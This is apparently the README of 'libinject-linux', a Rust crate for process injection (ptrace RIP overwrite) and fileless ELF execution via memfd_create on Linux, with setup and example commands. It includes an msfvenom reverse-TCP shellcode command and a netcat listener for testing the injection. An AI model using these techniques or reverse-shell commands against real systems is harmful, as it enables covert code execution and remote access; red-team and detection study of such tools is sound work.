 # libinject-linux

`libinject-linux` is a Rust crate containing implementations for process injection and fileless ELF execution techniques on Linux.

## Functionality
The following techniques are currently implemented:
- Using [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) to create an anonymous file in memory, write an ELF to it, and then execute.
- Using [ptrace(2)](https://man7.org/linux/man-pages/man2/ptrace.2.html) to stop a forked process, overwrite its RIP register with shellcode, and then resume it.

## Library Usage
Add `libinject-linux` as a dependency to your Rust project
```bash
cargo add --git https://github.com/dustyw0lf/libinject-linux.git
```

## Library Examples
>[!note]
>The examples can take binaries or shellcode from either URLs or filesystem paths.

Clone the repo
```bash
git clone https://github.com/dustyw0lf/libinject-linux.git
```

Change directory into `libinject-linux`
```bash
cd libinject-linux
```

### memfd
Run the memfd example with an ELF file
```bash
cargo run --example memfd_executable
```

Run the memfd example with the provided shelcode or use your own:
```bash
msfvenom --payload 'linux/x64/shell_reverse_tcp' LHOST=127.0.0.1 LPORT=1234 --format 'raw' --platform 'linux' --arch 'x64' --out shellcode.bin
```

Start a listener
```bash
nc -lvnp 1234
```

Run the example
```bash
cargo run --example memfd_shellcode
```

### hollow
Run the hollow example with shellcode
```bash
cargo run --example hollow_shellcode
```

## Acknowledgments
The code that turns shellcode into an ELF file was taken from the [minimal-elf](https://github.com/tchajed/minimal-elf) repository by [Tej Chajed](https://www.chajed.io).